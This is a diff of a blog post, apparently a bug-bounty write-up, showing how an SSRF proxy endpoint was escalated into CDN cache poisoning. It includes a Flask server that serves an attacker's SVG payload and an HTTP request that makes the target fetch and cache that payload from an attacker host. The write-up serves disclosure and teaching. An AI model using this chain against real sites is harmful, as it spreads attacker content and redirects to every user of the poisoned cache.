

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md, 2 parts joined by grey strips. Shown at 94% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
@@ -8,9 +10,7 @@ date: 2025-05-04 10:15:00
 
 ---
 
-## 1. Bug Mechanics
+## 1. Analyzing the Cache Poisoning Vulnerability via Server-Side Request Forgery?
 
-1. **SSRF**: The attacker supplies the URL of an SVG/XML payload (e.g., `poc.xml`) to the proxy endpoint.
-2. **Fetch & Cache**: The server fetches the payload and responds with `Content-Type: image/svg+xml`, causing CloudFront to **automatically cache** the response.
-3. **Logic Bug**: Once cached, all subsequent requests return the old payload from the CDN — **the attacker’s payload propagates** to all users.
+Alright, why do I say that? Perhaps you might be curious: this vulnerability originated from discovering a `Proxy Controller Endpoint`, so I was able to POC `SSRF`, but it was only rated `P5 Informational` because the `Program` defines that `SSRF` that only interacts with external services or with the `Server Attacker` is considered `Low-Impact`. Therefore, they suggested that I should find a way to increase its `Impact` so they could reevaluate it!
 
@@ -43,9 +57,23 @@ date: 2025-05-04 10:15:00
 </svg>
 ```
 
-### 3.2 Python Flask Demo
+This `Payload` is used to perform an `Open Redirect` attack to the `Server Attacker`, which may sound `low-impact`. But what really matters to them is how this `Payload` is saved into the cache and causes mass attacks!
 
+Note: Some of you may have been wondering how I injected the `Payload`, because the `SSRF` vulnerability performed a `Fetch` to the `Server Attacker` and brought the entire `Payload` from my `Poc.xml` file back in the `Response` from the server.
+
+![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)
+
+---
+
+## 4. The Real Cache Poisoning POC!
+
+Maybe that's completely done? Well, yes, it's definitely done, but how do I confirm to them that it's truly serious?
+
+I moved to a `VPS Server` to dig deeper. I wrote a web application using `Python Flask` as follows to escalate the impact from `P4 -> P3`:
+
+---
 ```python
+- Code to add
 from flask import Flask, make_response
 import os
 
@@ -59,9 +87,25 @@ def serve_svg_as_xml():
             response = make_response(f.read())
             response.headers.set('Content-Type', 'image/svg+xml')
             return response
-    return "File poc.xml not found!", 404
+    else:
+        return "File poc.xml not found!", 404
 
 if __name__ == '__main__':
-    app.run(host='0.0.0.0', port=5505, debug=False)
+    app.run(debug=False, host='0.0.0.0', port=5505)
+```
+---
+
+```http
+- Request in Repeater
+GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2
+Host: VulnWeb.com
+Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0
+Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9
+Upgrade-Insecure-Requests: 1
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1
+Sec-Fetch-Dest: document
+Accept-Encoding: gzip, deflate, br
+Priority: u=0, i
 ```
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md (+51 -34 lines).
